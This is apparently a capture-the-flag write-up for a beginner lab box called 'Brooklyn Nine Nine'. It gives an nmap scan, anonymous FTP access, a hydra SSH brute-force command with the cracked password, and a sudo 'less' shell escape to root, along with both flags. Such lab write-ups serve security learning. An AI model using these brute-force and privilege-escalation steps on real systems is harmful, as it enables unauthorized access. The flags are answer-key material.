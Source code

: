 **Tristan Gomez**


# Brooklyn Nine Nine
```
This room is aimed for beginner level hackers but anyone can try to hack this box. 
There are two main intended ways to root the box. If you find more dm me in discord at Fsociety2006.
```

nmap
```
└─$ sudo nmap -sS 10.10.97.0
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-16 11:06 PDT
Nmap scan report for 10.10.97.0
Host is up (0.18s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 9.61 seconds

```

10.10.97.0
in page source
```
<body>

<div class="bg"></div>

<p>This example creates a full page background image. Try to resize the browser window to see how it always will cover the full screen (when scrolled to top), and that it scales nicely on all screen sizes.</p>
<!-- Have you ever heard of steganography? -->
</body>
```

ftp
`anonymous:password`

note_to_jake.txt
```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine

```

`hydra -l jake -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-10000.txt ssh://10.10.97.0`
`[22][ssh] host: 10.10.97.0   login: jake   password: 987654321`


go to /holt
```
jake@brookly_nine_nine:/home/holt$ ls
nano.save  user.txt
jake@brookly_nine_nine:/home/holt$ cat user.txt
ee11cbb19052e40b07aac0ca060c23ee

```


sudo -l to check permissions
```
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less

```

gtfobins
```
Sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

sudo less /etc/profile
!/bin/sh
```

```
# whoami
root

```

```
# cat /root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
# 

```
